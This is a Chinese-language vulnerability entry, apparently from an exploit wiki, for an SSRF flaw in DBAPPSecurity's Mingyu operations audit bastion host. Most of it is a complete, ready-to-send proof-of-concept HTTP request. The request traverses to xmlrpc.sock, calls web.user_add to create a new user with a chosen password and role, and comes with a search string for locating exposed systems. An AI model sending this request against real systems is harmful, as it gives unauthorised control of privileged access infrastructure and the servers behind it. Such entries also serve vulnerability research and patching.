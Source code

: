 # 安恒 明御运维审计与风险控制系统 xmlrpc.sock 任意用户添加漏洞

## 漏洞描述

安恒 明御运维审计与风险控制系统 xmlrpc.sock 接口存在SSRF漏洞，通过漏洞可以添加任意用户控制堡垒机

## 漏洞影响

<a-checkbox checked>安恒 明御运维审计与风险控制系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"明御运维审计与风险控制系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1684157005274-29040e67-0fcc-4cf9-a841-dfecf15337f5.png)

验证POC

```c
POST /service/?unix:/../../../../var/run/rpc/xmlrpc.sock|http://test/wsrpc HTTP/1.1
Host: 
Cookie: LANG=zh; DBAPPUSM=ee4bbf6c85e541bb980ad4e0fbee2f57bb15bafe20a7028af9a0b8901cf80fd3
Content-Length: 1117
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0"?>  
<methodCall>
<methodName>web.user_add</methodName>
<params>
<param>
<value>
<array>
<data>
<value>
<string>admin</string>
</value>
<value>
<string>5</string>
</value>
<value>
<string>10.0.0.1</string>
</value>
</data>
</array>
</value>
</param>
<param>
<value>
<struct>
<member>
<name>uname</name>
<value>
<string>test</string>
</value>
</member>
<member>
<name>name</name>
<value>
<string>test</string>
</value>
</member>
<member>
<name>pwd</name>
<value>
<string>1qaz@3edC12345</string>
</value>
</member>
<member>
<name>authmode</name>
<value>
<string>1</string>
</value>
</member>
<member>
<name>deptid</name>
<value>
<string></string>
</value>
</member>
<member>
<name>email</name>
<value>
<string></string>
</value>
</member>
<member>
<name>mobile</name>
<value>
<string></string>
</value>
</member>
<member>
<name>comment</name>
<value>
<string></string>
</value>
</member>
<member>
<name>roleid</name>
<value>
<string>102</string>
</value>
</member>
</struct></value>
</param>
</params>
</methodCall>
```

![img](/assets/PeiQi-Wiki/img/1691632648327-7506c46c-805d-47ae-a95a-a317645b5c6e.png)